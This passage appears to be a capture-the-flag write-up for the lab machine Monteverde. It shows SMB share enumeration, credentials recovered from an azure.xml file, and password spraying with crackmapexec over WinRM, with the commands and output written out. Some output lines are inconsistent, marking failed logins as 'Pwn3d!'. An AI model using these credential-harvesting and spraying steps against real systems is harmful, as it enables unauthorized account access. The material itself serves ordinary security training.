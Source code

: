 Then I utilize smbclient tool to enumerate shares and found **users$** share with read permission. 

```bash
| Disk            | Permissions  | Comment                |
|-----------------|--------------|------------------------|
| ADMIN$          | NO ACCESS    | Remote Admin           |
| azure_uploads   | READ ONLY    |                        |
| C$              | NO ACCESS    | Default share          |
| E$              | NO ACCESS    | Default share          |
| IPC$            | READ ONLY    | Remote IPC             |
| NETLOGON        | READ ONLY    | Logon server share     |
| SYSVOL          | READ ONLY    | Logon server share     |
| users$          | READ ONLY    |                        |
```

In SMB Share, there is a file called **azure.xml** was present on mhope user account. I downloaded it to my local account.

```bash
$ smbclient \\\\megabank.local\\users$\\mhope -U 'SABatchJobs%SABatchJobs' 
```

After viewing the content of **azure.xml** file, there i found the password. 

<img  alt="Pasted image 20240729233350" src="https://github.com/user-attachments/assets/36fa919c-8af9-4334-9e2c-e6e0b92be605">

`4n0therD4y@n0th3r$`
### Password Spraying

Using Password Spraying techniques, i discover that the mhope user has that password.

```bash
$ crackmapexec winrm  megabank.local -u user1.txt -p '4n0therD4y@n0th3r$' --continue-on-success
SMB         10.129.228.111  5985   MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
HTTP        10.129.228.111  5985   MONTEVERDE       [*] http://10.129.228.111:5985/wsman
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$ 
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ 
HTTP        10.129.228.111  5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\roleary:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:4n0therD4y@n0th3r$ (Pwn3d!)
```
